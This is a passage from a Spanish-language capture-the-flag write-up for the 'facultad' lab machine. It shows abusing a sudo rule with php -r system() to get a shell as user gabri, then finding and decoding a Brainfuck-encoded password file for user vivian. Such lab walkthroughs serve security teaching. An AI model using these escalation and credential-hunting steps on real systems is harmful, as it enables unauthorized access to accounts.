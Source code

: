 Ejecutémoslo:
```bash
www-data@TheHackersLabs-facultad:/$ CMD="/bin/bash"
www-data@TheHackersLabs-facultad:/$ sudo -u gabri php -r "system('$CMD');"
sudo: unable to resolve host TheHackersLabs-facultad.thl: Name or service not known
gabri@TheHackersLabs-facultad:/$ 
gabri@TheHackersLabs-facultad:/$ whoami
gabri
```
Nos convertimos en el **usuario gabri**.

<br>

<h2 id="gabri">Buscando Archivos del Usuario gabri, Decodificando Mensaje en Lenguaje Brainfuck y Ganando Acceso como Usuario vivian vía SSH</h2>

Recordemos que no encontramos ningún archivo o directorio perteneciente al **usuario gabri**.

Podemos buscarlos con el comando **find**:
```bash
gabri@TheHackersLabs-facultad:/$ find / -user gabri 2>/dev/null
/dev/pts/1
/var/mail/gabri
/var/mail/gabri/.password_vivian.bf
/proc/2382
/proc/2382/task
/proc/2382/task/2382
/proc/2382/task/2382/fd
...
```

Al principio de la búsqueda, encontramos un archivo llamado **.password_vivian.bf** y si lo leemos, veremos que tiene un mensaje codificado en **lenguaje Brainfuck**:
```bash
gabri@TheHackersLabs-facultad:/$ cat /var/mail/gabri/.password_vivian.bf
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>++++++++.-----------.+++++++++++++++.---------------.+++++++++++++++++++.--.---.-.-------------.<<++++++++++++++++++++.--.++.+++.
```

Lo podemos decodificar con la siguiente página web:
* <a href="https://md5decrypt.net/en/Brainfuck-translator/" target="_blank">Brainfuck Translator</a>

Observa el mensaje que obtuvimos:

<p align="center">
<img src="/assets/images/THL-writeup-facultad/Captura14.png">
</p>
